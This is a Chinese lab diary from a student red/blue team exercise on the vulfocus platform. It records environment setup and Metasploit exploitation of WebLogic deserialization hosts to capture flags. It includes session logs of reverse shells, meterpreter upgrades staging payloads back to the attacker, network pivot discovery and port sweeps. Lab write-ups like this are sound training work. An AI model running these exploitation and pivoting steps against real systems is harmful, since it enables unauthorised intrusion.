







# 实验日记

>This is Hoshi

## 杂项记录

虽然说是杂项记录，整体还是时间线的顺序，并且稍微进行了内容规整，比如对内容区域进行了一定程度的划分，但不影响还是很乱

### 第零回合

>前期准备的回合，因为不算正式开始攻防所以，zero

- 2023年7月12日之前的哪个时候，在某台Kali虚拟机上对vulfocus平台进行了搭建，同时复现了rock遇到的“场景商店不能正常工作”的问题，顺便摸索了添加网卡的功能
- 2023年7月12日，和rock讨论之后决定手搓视频中演示的标准dmz主机场景，甚至使用了一样的网卡名称、网段和镜像，并成功启动了场景，虽然没有确认后续步骤能不能顺利进行，但是姑且认为是完成了一部分摸索

    

- 2023年7月12日，为了确保小组成员能够正确使用Git进行合理的工作记录，重新复习了密码学小学期玩到吐的Learn Git Branching游戏，不过倒是很快就上手了，记忆这个东西虽然模糊但是多少还是有点分量的

    

- 2023年7月13日，乘坐飞机回家，正式新建分支hoshi，添加了包括这段内容在内的诸多文件，打算将日记和报告分开存放了，日记这里随意记录一些琐事，报告的话还是需要好好整理格式

    

- 2023年7月15日，尝试更改实验环境的角色配置，原本计划用作Victim主机的VirtualBox虚拟机Kali将被用作Attacker主机，原本计划用作Attacker主机的WSL2中安装的Kali子系统将被用作Victim主机，理由大概是下面的情况：

  - 为了确保WSL2中的Kali能够正常启用为WSL适配的Win-Kex模式，不能将WSL2的Kali设置为由systemd作为PID 1引导启动的完整虚拟机（WSL2本身是可以通过添加配置来实现由systemd启动的），而要使用类似chroot的方式，此时使用metasploit framework时，如果要启用数据库来记录操作，其自动化模式是通过systemd启动数据库，于是会出现很直白的无法启动的问题，虽然说可以通过手动管理数据库服务，但考虑到折腾量还是选择了交换Victim和Attacker主机，毕竟单就docker来说，因为之前已经手动配置了服务启动所以和实际使用虚拟机并没有太大的区别了

    

- 2023年7月15日，记不清是不是已经说过了，但是还是记录一下，USTC已经停止对校外提供docker hub的镜像源了，官网上有说明，[ctf-games中关于vulfocus的README还没改](https://github.com/c4pr1c3/ctf-games/tree/master/fofapro/vulfocus)，仍然是cat中科大镜像源🤔

  

  - 2023年7月19日，想起来了所以追加了一下，可以用[NJU的镜像](https://mirrors.nju.edu.cn/)，👈前面的是主页，[这里是对应的换源文档](https://doc.nju.edu.cn/books/35f4a/page/docker-hub)

### 第一回合

>从红蓝攻防对抗的视角来考虑，这一部分是红方第一次对整个场景进行模拟渗透的回合，也就是第一回合，这之后还会有后续的回合才对（理论上）

- 2023年7月15日，调换Victim主机和Attacker主机之后果然一切顺利，先是正常初始化了Metaspolit的数据库，然后也顺着教程拿到了第一台机器的flag

  

  

  

  

  有趣的是rock似乎遇到了和我开始打算用WSL作为Attacker主机使用时很像的msfdb初始化问题，目前还不清楚他具体遇到了什么问题

- 2023年7月17日，昨天（16日）一整天都因为电脑不知道原因的黑屏死机而折腾，进度也因为死机重启数据截图完全没有得到保留...并不是说今天电脑就好了，只能一边祈祷着不出问题一边尽可能多留下一些截图之类的东西

- 2023年7月17日，顺利在没有黑屏的情况下执行到了第二层内网三台weblogic漏洞主机的flag，虽然为了省事在主机存活扫描和exploit搜索时都直接使用了白盒端口和CVE直接搜索

  另外是在使用过程中发现的，metasploit在添加options时可以使用类似正则的表达来一次run执行多个主机的exploit，效果的话就和下图的效果一样：

  

  很显然中间因为有个192.170.84.4是外层struts2漏洞的主机导致破解失败，不过另外三台主机都没有问题，会在sessions里面直接get到3个会话，直接接入进去查看flag就好，操作的话姑且用下面的code block进行记录：

  ```metasploit
  msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions

  Active sessions
  ===============

    Id  Name  Type                   Information          Connection
    --  ----  ----                   -----------          ----------
    1         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:58718 (172.29.108.146)
    2         meterpreter x86/linux  root @ 192.170.84.4  192.168.56.107:4433 -> 192.168.56.1:58648 (172.29.108.146)
    3         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:58646 (192.170.84.2)
    4         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:58662 (192.170.84.3)
    5         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:58702 (192.170.84.5)

  msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions -i 3
  [*] Starting interaction with 3...

  ls /tmp
  bea1061393648233859820.tmp
  cookie.txt
  flag-{bmh847737fd-8975-4b37-b977-f50474a56937}
  hsperfdata_root
  packages
  wlstTemproot
  ^Z
  Background session 3? [y/N]  y
  msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions -i 4
  [*] Starting interaction with 4...

  ls /tmp
  bea1061393648233859820.tmp
  cookie.txt
  flag-{bmh0b089d55-4a89-41ea-b31f-e8f775ce1952}
  hsperfdata_root
  packages
  wlstTemproot
  ^Z
  Background session 4? [y/N]  y
  msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions -i 5
  [*] Starting interaction with 5...

  ls /tmp
  bea1061393648233859820.tmp
  cookie.txt
  flag-{bmh0d1008a5-7a3d-43c8-a6a9-03fadae3bd8d}
  hsperfdata_root
  packages
  wlstTemproot
  ^Z
  Background session 5? [y/N]  y
  msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) >
  ```

  分别将flag贴到vulfocus的场景中就可以看到进度已经来到80%了，大顺利~

  

  唯一的疑惑是为什么明明还有一台nginx的php漏洞主机没交flag，但是却已经显示已完成了🤔

- 2023年7月17日，将前述部分刚刚得到的3个普通会话升级meterpreter时遇到问题，升级失败，报错情况如下：

  ```metasploit
  msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions -u 3-5
  [*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [3, 4, 5]

  [*] Upgrading session ID: 3
  [-] Post failed: NoMethodError undefined method `include?' for nil:NilClass
  [-] Call stack:
  [-]   /usr/share/metasploit-framework/lib/msf/core/session/provider/single_command_shell.rb:114:in `set_is_echo_shell'
  [-]   /usr/share/metasploit-framework/lib/msf/core/session/provider/single_command_shell.rb:135:in `shell_command_token_base'
  [-]   /usr/share/metasploit-framework/lib/msf/core/session/provider/single_command_shell.rb:122:in `shell_command_token_unix'
  [-]   /usr/share/metasploit-framework/lib/msf/core/session/provider/single_command_shell.rb:91:in `shell_command_token'
  [-]   /usr/share/metasploit-framework/lib/msf/core/post/common.rb:132:in `cmd_exec'
  [-]   /usr/share/metasploit-framework/modules/post/multi/manage/shell_to_meterpreter.rb:114:in `run'
  [*] Sleeping 5 seconds to allow the previous handler to finish..
  [*] Upgrading session ID: 4
  [-] Post failed: NoMethodError undefined method `include?' for nil:NilClass
  [-] Call stack:
  [-]   /usr/share/metasploit-framework/lib/msf/core/session/provider/single_command_shell.rb:114:in `set_is_echo_shell'
  [-]   /usr/share/metasploit-framework/lib/msf/core/session/provider/single_command_shell.rb:135:in `shell_command_token_base'
  [-]   /usr/share/metasploit-framework/lib/msf/core/session/provider/single_command_shell.rb:122:in `shell_command_token_unix'
  [-]   /usr/share/metasploit-framework/lib/msf/core/session/provider/single_command_shell.rb:91:in `shell_command_token'
  [-]   /usr/share/metasploit-framework/lib/msf/core/post/common.rb:132:in `cmd_exec'
  [-]   /usr/share/metasploit-framework/modules/post/multi/manage/shell_to_meterpreter.rb:114:in `run'
  [*] Sleeping 5 seconds to allow the previous handler to finish..
  [*] Upgrading session ID: 5
  [-] Post failed: NoMethodError undefined method `include?' for nil:NilClass
  [-] Call stack:
  [-]   /usr/share/metasploit-framework/lib/msf/core/session/provider/single_command_shell.rb:114:in `set_is_echo_shell'
  [-]   /usr/share/metasploit-framework/lib/msf/core/session/provider/single_command_shell.rb:135:in `shell_command_token_base'
  [-]   /usr/share/metasploit-framework/lib/msf/core/session/provider/single_command_shell.rb:122:in `shell_command_token_unix'
  [-]   /usr/share/metasploit-framework/lib/msf/core/session/provider/single_command_shell.rb:91:in `shell_command_token'
  [-]   /usr/share/metasploit-framework/lib/msf/core/post/common.rb:132:in `cmd_exec'
  [-]   /usr/share/metasploit-framework/modules/post/multi/manage/shell_to_meterpreter.rb:114:in `run'
  [*] Sleeping 5 seconds to allow the previous handler to finish..
  msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions

  Active sessions
  ===============

    Id  Name  Type                   Information          Connection
    --  ----  ----                   -----------          ----------
    1         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:58718 (172.29.108.146)
    2         meterpreter x86/linux  root @ 192.170.84.4  192.168.56.107:4433 -> 192.168.56.1:58648 (172.29.108.146)
    3         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:58646 (192.170.84.2)
    4         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:58662 (192.170.84.3)
    5         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:58702 (192.170.84.5)

  msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) >
  ```

  可以看到似乎都是一个地方遇到问题了

- 2023年7月17日，针对上面的问题大概检查了一下，发现是给Victim分配的内存太小了，导致在开启抓包后很快就爆内存了，倒不是metasploit的问题，只是场景主机没有响应了，使用普通sessions的shell也是死机状态😔  
  这下又要重开了，绝望

- 2023年7月17日，真的很想骂vulfocus这个平台的健壮性，场景如果不手动停止就会出现停了vulfocus容器但是环境容器还在运行的情况，重新开启vulfocus平台则会直接服务器错误，场景、镜像、网卡等配置全部清空，易用性拉满了属于是

- 2023年7月17日，重新快速走了一半的流程，仍然是快速升级拿到的3个普通会话，此时已经没有问题了：

  ```metasploit
  msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions -u 3-5
  [*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [3, 4, 5]

  [*] Upgrading session ID: 3
  [*] Starting exploit/multi/handler
  [*] Started reverse TCP handler on 192.168.56.107:4433
  [*] Sending stage (1017704 bytes) to 192.168.56.1
  [*] Command stager progress: 100.00% (773/773 bytes)
  [*] Sleeping 5 seconds to allow the previous handler to finish..
  [*] Meterpreter session 6 opened (192.168.56.107:4433 -> 192.168.56.1:58666) at 2023-07-17 08:35:07 -0400
  [*] Stopping exploit/multi/handler
  [*] Upgrading session ID: 4
  [*] Starting exploit/multi/handler
  [*] Started reverse TCP handler on 192.168.56.107:4433
  [*] Sending stage (1017704 bytes) to 192.168.56.1
  [*] Command stager progress: 100.00% (773/773 bytes)
  [*] Sleeping 5 seconds to allow the previous handler to finish..
  [*] Meterpreter session 7 opened (192.168.56.107:4433 -> 192.168.56.1:58680) at 2023-07-17 08:35:20 -0400
  [*] Stopping exploit/multi/handler
  [*] Upgrading session ID: 5
  [*] Starting exploit/multi/handler
  [*] Started reverse TCP handler on 192.168.56.107:4433
  [*] Sending stage (1017704 bytes) to 192.168.56.1
  [*] Command stager progress: 100.00% (773/773 bytes)
  [*] Sleeping 5 seconds to allow the previous handler to finish..
  [*] Meterpreter session 8 opened (192.168.56.107:4433 -> 192.168.56.1:58684) at 2023-07-17 08:35:33 -0400
  [*] Stopping exploit/multi/handler
  msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions

  Active sessions
  ===============

    Id  Name  Type                   Information          Connection
    --  ----  ----                   -----------          ----------
    1         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:58690 (172.29.108.146)
    2         meterpreter x86/linux  root @ 192.171.84.5  192.168.56.107:4433 -> 192.168.56.1:58654 (172.29.108.146)
    3         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:58628 (192.171.84.2)
    4         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:58676 (192.171.84.3)
    5         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:58712 (192.171.84.4)
    6         meterpreter x86/linux  root @ 192.171.84.2  192.168.56.107:4433 -> 192.168.56.1:58666 (192.171.84.2)
    7         meterpreter x86/linux  root @ 192.172.85.3  192.168.56.107:4433 -> 192.168.56.1:58680 (192.171.84.3)
    8         meterpreter x86/linux  root @ 192.171.84.4  192.168.56.107:4433 -> 192.168.56.1:58684 (192.171.84.4)

  msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) >
  ```

  由于重启（准确来说是重铸）了环境所以IP和端口有变化，不过不影响，这次是在192.171.84.3上找到了第二张网卡，IP地址为192.172.85.3：

  ```metasploit
  msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions -i 7
  [*] Starting interaction with 7...

  meterpreter > ipconfig

  Interface  1
  ============
  Name         : lo
  Hardware MAC : 00:00:00:00:00:00
  MTU          : 65536
  Flags        : UP,LOOPBACK
  IPv4 Address : 127.0.0.1
  IPv4 Netmask : 255.0.0.0


  Interface 17
  ============
  Name         : eth1
  Hardware MAC : 02:42:c0:ab:54:03
  MTU          : 1500
  Flags        : UP,BROADCAST,MULTICAST
  IPv4 Address : 192.171.84.3
  IPv4 Netmask : 255.255.255.0


  Interface 21
  ============
  Name         : eth0
  Hardware MAC : 02:42:c0:ac:55:03
  MTU          : 1500
  Flags        : UP,BROADCAST,MULTICAST
  IPv4 Address : 192.172.85.3
  IPv4 Netmask : 255.255.255.0

  meterpreter >
  ```

  这里原本决定换一个和视频不一样的方式来获取flag，尝试不离开msfconsole，通过套autoroute路由的方式（其实就是从外层到中层的方式），但是发现这个IP似乎是会跳到外网去了，traceroute了一下跳了不知道多少个路由，真的用nmap去扫192.172.85.0/24的时候254台主机全部在线，总感觉要突破一些不该突破的边界了，姑且先到这里，得重启一下环境才行😰

- 2023年7月18日，重启场景而不是重启环境之后尝试了一下用穷举1-65535端口通过struts2漏洞主机扫描第一层内网254台可能开启的主机，结果是扫了半个小时，抓了11万个包，还没有扫出一台主机，只能说红方摸黑是真不好操作

  

  于是引发了一些关于红蓝两方难度的思考，假设稍微逼真一点去模拟这个场景，红方如何在没有社工的前提下获取到开启服务的信息来“最小化动静”，当然穷举常用服务的端口是一种办法，如果对方稍微有一点对抗意识，将服务开放在高位随机端口的话其实就很麻烦了，不计时间和算力成本地毯式扫描的话，有没有记录取证都另说，大不了用僵尸网络群起而攻之，也不会暴露真实的攻击者信息，但是如果内层网络也加入一些像是对扫描的过滤，类似防火墙的感觉的话，那就，只能扣gg了😂

  蓝方的话，设防大概就是上面的思路？现在来看“藏起来”其实是很好的规避漏洞被发现到利用的方式，当然对外网提供服务的主机肯定是没有办法了，毕竟可利用的高危漏洞在曝光出来之前其实是0day性质一样的东西，只有后手修补的机会，然而多数情况下存在漏洞的程序是服务提供者维护的可能性很小，就需要等待上游的安全补丁，所以更多的情况下还是在漏洞利用方式上的修补，或者说，直接牺牲可用性停用服务🤔？经济效益怎么办？决策？

  姑且先发散到这里，继续折腾后面最后一台主机去了😂

- 2023年7月18日，重复试了很多次都不能正常访问到最内层的主机后，无意间发现最内层的主机的容器在开启后就退出了，本来是通过`docker ps`来查看运行中的容器，发现并没有`vulshare/nginx-php-flag`的容器，通过`docker ps -a`查看到了`Exited(1)`的状态，并尝试通过`docker logs`来查看引发错误的日志，结果也看不出什么头绪，单看ping的报错的话，像是网卡配置问题的样子🤔

  

  
  
  所谓的漏洞打包镜像，说白了不就和黑盒没什么区别吗，排错噩梦，不过倒是也说明了为什么完成了4台机器就已经提示通过了，因为第五台是宕机状态啊😂

### 第二回合

>于是这一部分开始是蓝方检测到红方的攻击并进行一定对抗的第二回合，通过对抓取的攻击流量进行分析，尝试对漏洞利用进行拦截
